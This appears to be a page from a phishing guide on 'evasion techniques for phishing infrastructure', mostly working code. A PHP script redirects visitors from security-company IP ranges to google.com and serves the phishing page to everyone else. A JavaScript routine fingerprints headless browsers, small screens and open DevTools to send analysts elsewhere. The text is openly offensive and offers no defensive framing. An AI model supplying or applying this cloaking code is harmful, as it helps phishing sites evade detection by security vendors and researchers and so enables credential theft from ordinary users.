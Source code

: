 #### Evasion Techniques for Phishing Infrastructure

Security tools of M$ and other providers are getting better at detecting phishing pages. Here are some ways to stay under the radar:

1. **IP-based filtering** to block security companies and researchers:

```php
<?php
// Block security companies and known scanners
$blocked_ips = [
    '192.0.2.', // Example security company range
    '198.51.100.', // Example security scanner range
];

$visitor_ip = $_SERVER['REMOTE_ADDR'];
foreach ($blocked_ips as $blocked) {
    if (strpos($visitor_ip, $blocked) === 0) {
        // Redirect to legitimate site
        header('Location: https://google.com');
    exit;
    }
}

// Continue to phishing page if not blocked
include 'real_phishing_page.html';
?>
```

2. **Browser fingerprinting** to detect security tools:

```javascript
// Simple browser fingerprinting
function checkBrowser() {
    // Check for headless browsers or automation tools
    if (navigator.webdriver || navigator.plugins.length === 0) {
        window.location = "https://legitimate-site.com";
        return;
    }
    
    // Check screen dimensions (many security tools use small windows)
    if (screen.width < 1000 || screen.height < 600) {
        window.location = "https://legitimate-site.com";
        return;
    }
    
    // Check if DevTools is open
    if (window.outerHeight - window.innerHeight > 200) {
        window.location = "https://legitimate-site.com";
        return;
    }
}

// Run checks when page loads
document.addEventListener('DOMContentLoaded', checkBrowser);
```
